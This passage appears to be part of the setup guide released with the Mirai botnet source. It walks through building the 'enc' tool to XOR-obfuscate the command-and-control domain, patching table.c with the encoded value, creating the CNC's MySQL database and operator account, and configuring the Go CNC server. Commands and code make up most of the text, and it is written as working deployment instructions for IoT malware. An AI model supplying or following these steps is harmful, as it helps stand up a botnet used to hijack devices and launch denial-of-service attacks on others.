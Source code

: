 Run this inside mirai directory

    ./build.sh debug telnet

You will get some errors related to cross-compilers not being there if you have
not configured them. This is ok, won't affect compiling the enc tool

Now, in the `./mirai/debug` folder you should see a compiled binary called enc.
For example, to get obfuscated string for domain name for bots to connect to,
use this:

    ./debug/enc string fuck.the.police.com

The output should look like this

    XOR'ing 20 bytes of data...
    \x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22

To update the `TABLE_CNC_DOMAIN` value for example, replace  that long hex string
with the one provided by enc tool. Also, you see `XOR'ing 20 bytes of data`.
This value must replace the last argument tas well. So for example, the table.c
line originally looks like this

    add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com

Now that we know value from enc tool, we update it like this

    add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com

Some values are strings, some are port (uint16 in network order / big endian).

# Configuring CNC

    apt-get install mysql-server mysql-client

CNC requires database to work. When you install database, go into it and run
following commands: http://pastebin.com/86d0iL9g (ref:
[`db.sql`](scripts/db.sql))

This will create database for you. To add your user,

    INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

Now, go into file [`./mirai/cnc/main.go`](mirai/cnc/main.go)

Edit these values

    const DatabaseAddr string   = "127.0.0.1"
    const DatabaseUser string   = "root"
    const DatabasePass string   = "password"
    const DatabaseTable string  = "mirai"

To the information for the mysql server you just installed


# Setting Up Cross Compilers
